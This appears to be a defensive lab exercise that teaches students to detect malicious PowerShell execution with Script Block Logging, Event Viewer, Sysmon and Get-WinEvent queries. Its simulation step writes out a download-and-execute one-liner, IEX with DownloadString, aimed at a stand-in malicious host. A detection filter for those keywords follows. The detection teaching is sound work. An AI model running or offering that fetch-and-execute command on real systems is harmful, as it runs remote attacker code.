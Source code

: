 # **Task #3: Investigate PowerShell Command Execution Logs**

## **Objective**  
The objective of this task is to help students analyze **PowerShell execution logs** to detect potential malicious activity. By completing this task, students will learn how to capture **PowerShell command execution events**, detect suspicious script execution, and analyze logs using **Windows Event Viewer and PowerShell**.

---

## **Lab Setup**  
### **Requirements**  
- **System:** Windows 10/11 or Windows Server 2019/2022  
- **Tools Required:**  
  - **PowerShell** (Pre-installed on Windows)  
  - **Windows Event Viewer**  
  - **Sysmon (System Monitor) from Sysinternals**  

---

## **Preparation**  
### **Step 1: Enable PowerShell Logging**  
To ensure PowerShell activity is being logged, enable **Script Block Logging**:  

1. Open **PowerShell (Run as Administrator)** and run:  
   ```powershell
   Set-ExecutionPolicy RemoteSigned -Scope LocalMachine -Force
   ```
2. Enable logging for PowerShell script blocks:
```
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell" -Name ScriptBlockLogging -Value 1 -PropertyType DWord
```

## Attack Simulation & Detection
We will now simulate the execution of a suspicious PowerShell command, detect it using Event Viewer, and analyze logs with Sysmon.

### Step 1: Simulate a Suspicious PowerShell Command Execution
1. Open PowerShell (Run as Administrator).
2. Run the following potentially malicious command:
```
IEX (New-Object Net.WebClient).DownloadString("http://malicious-site.com/malware.ps1")
```
- This command attempts to download and execute a remote PowerShell script, a common technique used by attackers.
- If running in a safe lab environment, replace the URL with a harmless text file.

### Step 2: Detect PowerShell Command Execution in Windows Event Viewer
1. Open Event Viewer (Win + R, type eventvwr.msc, press Enter).
2. Navigate to:
```
Applications and Services Logs → Microsoft → Windows → PowerShell → Operational
```
3. Click Filter Current Log and enter Event ID 4104 (Script Block Logging).
4. Look for:
- Executed Command: IEX (New-Object Net.WebClient)...
- Source Process: powershell.exe
- User Account: The account that executed the script

### Step 3: Detect PowerShell Command Execution Using Sysmon Logs
1. Open Event Viewer and navigate to:
```
Applications and Services Logs → Microsoft → Windows → Sysmon → Operational
```
2. Click Filter Current Log and enter Event ID 1 (Process Creation).
3. Look for:
- Process Name: `powershell.exe`
- Command Line Arguments: The executed PowerShell command
- Network Connections (if applicable)

### Step 4: Retrieve PowerShell Execution Logs Using PowerShell
Instead of using Event Viewer, use PowerShell to extract logs:

**Check for PowerShell Script Block Logging (Event ID 4104)**
```
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Id -eq 4104} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- This retrieves all PowerShell script block execution logs.

**Check for PowerShell Process Execution via Sysmon (Event ID 1)**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object {$_.Id -eq 1 -and $_.Message -like "*powershell.exe*"} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- This extracts all PowerShell-related process execution logs.

### Step 5: Investigate Potential Remote Code Execution (RCE)
To detect suspicious PowerShell activity related to remote script execution, use:

```
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Message -like "*IEX*" -or $_.Message -like "*DownloadString*"} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- If results appear, it suggests a PowerShell command attempted to fetch and execute remote scripts.

## Conclusion
✅ Successfully simulated a suspicious PowerShell command execution.    
✅ Detected and analyzed PowerShell script execution logs using Event Viewer and Sysmon.     
✅ Identified remote code execution attempts, a common technique used by malware and attackers.    
✅ Learned how SOC analysts track PowerShell-based attacks and prevent execution of malicious scripts.    

## Submission
Share a screenshot of Sysmon or PowerShell logs showing script execution (Event ID 4104 or Event ID 1).
Write a short observation on how PowerShell logging helps in detecting fileless malware attacks.
